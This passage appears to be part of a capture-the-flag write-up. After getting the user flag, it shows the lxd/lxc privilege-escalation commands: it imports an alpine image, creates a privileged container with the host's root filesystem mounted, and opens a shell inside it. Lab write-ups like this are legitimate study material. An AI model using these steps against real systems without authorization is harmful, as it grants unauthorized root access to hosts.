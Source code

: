 <p align="center"> <img src="./Screenshots/7.png" width="550" ></p>
Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

<p align="center"> <img src="./Screenshots/8.png" width="550" ></p>

Lets exploit this service, Download the vulnerable container image using [alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine.

> Add the image :
```bash 
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
> Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
> Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```